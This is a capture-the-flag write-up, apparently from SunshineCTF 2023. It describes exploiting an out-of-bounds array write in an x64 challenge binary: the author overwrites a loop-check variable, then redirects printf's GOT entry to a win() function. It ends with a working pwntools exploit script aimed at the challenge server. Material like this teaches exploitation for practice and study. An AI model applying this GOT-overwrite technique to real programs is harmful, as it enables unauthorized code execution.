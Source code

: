 # Array of Sunshine

The challenge is to exploit an index of bound write in a x64 binary.
The program asks for two inputs. The first defines the index of the fruits-array
and the second input writes into the memory of the specified index location:

![Basic Output](img1.png)

The program exits after the second input. However, if we take a look at the main function
we can see that there is a loop around the basket function:

![loop](img2.png)

The problem is, that after the second input, the program checks a magic-variable called
"printf_sym". If this magic variable is not 0x6, the programm jumps to the exit-function:

![exit](img3.png)

If we can somehow overwrite that variable with the value 0x6, the loop would work and we
can repeat the basket function. So the first thing we did, was to examine the memory down
from array[0]: 

![get the base address](img4.png)

We entered 0 into the first scanf and then we got an address to write to
in the second scanf. We used this address as our base and examined the memory in gdb:

![memup](img5.png)

As we can see, the variable "printf_sym" can be reached by increasing the index. By trial 
and error we figured out that the index to point to "printf_sym" is 10.

Now we are able to loop and repeat the basket function as often as we want. Next we need to
find a way to manipulate the execution flow. So we examined the memory again. This time we
decreased the addresses:

![memdown](img6.png)

And we found some got.plt locations:

![printf got](img7.png)

We can overwrite the printf@got.plt with any address in the memory. The next time printf is
executed, the programm will jump to our address instead. So we were looking for some useful
functions and found the function "win":

![win function](img8.png)

The win() function executes system("cat flag.txt"). Thats exactly what we want to do. So lets
put this into code:

```python
from pwn import p64
from pwn import *


def print_n_send(p, payload):
    print(payload)
    p.sendline(payload)


# p = process("./sunshine")
p = remote("chal.2023.sunshinectf.games", 23003)

target_address = 0x405020
fruits_base = 0x405080
win_function_addr = 0x0040128F

local_34_value = (target_address - fruits_base) // 8

p.recvuntil(b"\n\n")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))

print_n_send(p, str.encode("10"))
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, b"\x06\x00\x00\x00\x00\x00\x00\x00")
print(p.recvuntil(b"Which fruit would you like to eat [0-3] >>> "))
print_n_send(p, str(local_34_value).encode())
print(p.recvuntil(b"Type of new fruit >>>"))
print_n_send(p, p64(win_function_addr))
print(p.recv())
```

![pwn](img9.png)

